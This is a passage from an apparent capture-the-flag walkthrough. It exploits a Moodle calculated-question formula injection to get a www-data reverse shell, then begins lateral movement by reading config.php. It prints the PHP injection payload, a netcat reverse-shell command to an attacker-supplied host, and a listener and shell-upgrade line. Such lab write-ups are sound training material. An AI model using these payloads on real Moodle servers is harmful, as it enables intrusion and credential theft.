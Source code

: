 ## Getting www-data shell

If we look into the courses we can see there's only one course wich is already finished (Algebra).
If we go into that course we can see a few resources into the course page.

*algebra-image*

We can click into the setting and then turn editing on.
The we can add an activity or resource and we add a quiz.

We have to set a random name, random description and we have to save and display. The we have to edit the quiz and add a new question which will be a *Calculated*.
<br>
We have to add a random question name, a random question text, we will have to set the grade on 100%.
On the formula field is the place in which we have to set the payload which is
```php
 /*{a*/`$_GET[0]`;//{x}}
```
*Again, there's more explanation about this exploit in this [blog][article-moodle]*

So we set this string into the filed and then we save changes.
Since the php service is waiting for the 0 in the url to be execute we have to add to the url the payload in order to get the reverse shell:
```bash
&0=(nc -e /bin/bash $IP $PORT)
```
Before executing this we have to listn with netcat on the port that we selected, for example 443.

```bash
nc -lvnp 443
```
We have a shell in www-data!

We can upgrade the shell with:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Lateral movement

If we list the users of the machine, we can see that giovanni is an user who's problably get the user flag.
We can try to grab it:
```bash
cat /home/giovanni/user.txt
```
But we got an error.

We can try switch the user with the same password that we used before to login into the moodle site, but doesn't work.

If we look into the server files we can see a pretty interesting file called config.php.
```bash
cat config.php
```


[steganography]: https://www.youtube.com/watch?v=TWEXCYQKyDc